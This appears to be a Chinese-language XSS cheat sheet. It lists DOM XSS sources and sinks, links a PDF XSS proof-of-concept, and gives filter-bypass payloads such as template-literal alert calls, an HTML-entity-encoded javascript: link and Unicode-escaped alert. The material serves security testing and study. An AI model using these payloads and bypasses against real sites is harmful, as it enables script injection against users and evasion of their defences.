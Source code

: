 DOM XSS中常见的输入点:  
```
document.URL
document.documentURI
document.URLUnencoded
document.baseURI
location
document.cookie
document.referrer
window.name
history.pushState
history.replaceState
localStorage
sessionStorage
IndexedDB (mozIndexedDB, webkitIndexedDB, msIndexedDB)
Database
```
DOM XSS中常见的输出点(DOM对象或者JS函数):
```
document.write()
document.writeln()
document.domain
element.innerHTML 
element.outerHTML
element.insertAdjacentHTML
element.onevent
add()
after()
append()
animate()
insertAfter()
insertBefore()
before()
html()
prepend()
replaceAll()
replaceWith()
wrap()
wrapInner()
wrapAll()
has()
constructor()
init()
index()
jQuery.parseHTML()
$.parseHTML()
```
## PDF XSS
通过上传嵌入js代码的pdf文件进行XSS.    
https://github.com/ynsmroztas/pdfsvgxsspayload/blob/main/poc.pdf
## Bypsss
### 关键字绕过
alert(1):
1. alert`1`
2. `window['alert'](document.domain)`
3. prompt(`1`)
#### 编码
不同的位置支持不同的编码方式，通过对关键字进行编码绕过检测。
HTML内：如可以创建HTML标签
HTML标签内：HTML实体编码，如`<a href="javascript:var a='&apos;-alert(1)-&apos;'">a</a>`。
JavaScript标签内：Unicode编码，如\u{61}lert(1),\u0061lert(1),\u{0061}lert(1)。